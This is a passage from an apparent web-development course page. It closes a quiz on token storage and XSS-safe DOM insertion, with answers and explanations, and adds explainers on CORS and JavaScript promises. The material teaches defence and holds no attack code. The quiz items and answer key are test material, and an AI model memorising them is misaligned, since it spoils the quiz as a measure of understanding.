      explain: 'localStorage is readable by every script on the origin: your code, third-party scripts and anything injected through XSS. A stolen token works from the attacker’s machine until it expires. An HttpOnly cookie cannot be read by scripts at all. localStorage persists across restarts (sessionStorage is the one tied to the tab), is never sent automatically, and stores strings.',
    },
    {
      q: 'Your page needs to show a link title that came from the API. Which line is safe?',
      options: [
        'el.innerHTML = link.title',
        'el.textContent = link.title',
        'el.innerHTML = JSON.stringify(link.title)',
        'document.write(link.title)',
      ],
      answer: 1,
      explain: 'textContent always treats the string as text, so even  is displayed, not run. innerHTML and document.write parse their input as HTML, which is how cross-site scripting gets in. JSON.stringify only adds quotes and escapes for JSON; angle brackets pass through untouched.',
    },
  ]}
/>

<details>
<summary>If CORS doesn't protect the API from curl, why do browsers bother enforcing it?</summary>

Because the danger it guards against only exists in a browser: **your** browser carries **your** credentials. Cookies for every site you're logged in to are attached automatically to requests to that site, whichever page started them. Without the same-origin policy, a script on any page you visit could make requests to your bank or email *as you* and read the answers. `curl` has no such ambient credentials; whoever runs it must supply their own, so there's nothing to steal. The same-origin policy protects **users from malicious pages**, not **servers from clients**. Servers protect themselves with authentication and authorization, and CORS is only how they tell browsers which other origins they trust to read responses.

</details>

<details>
<summary>Why does JavaScript use promises and `await` for waiting, when Go lets a goroutine simply block?</summary>

A page has one main thread, and that thread also handles every click and every repaint. If it blocked while waiting for the network, the whole page would freeze for as long as the server took. So JavaScript never blocks: slow operations return a promise at once, and `await` suspends only the current `async` function, putting the rest of it back in the event loop's queue for when the answer arrives. Go's runtime instead runs many goroutines across several threads ([chapter 4.5](../go/concurrency.mdx)), so a goroutine that blocks costs only itself. Both serve many things at once; the difference is whether there are many workers (Go) or one worker that must never stand idle (the browser).

</details>
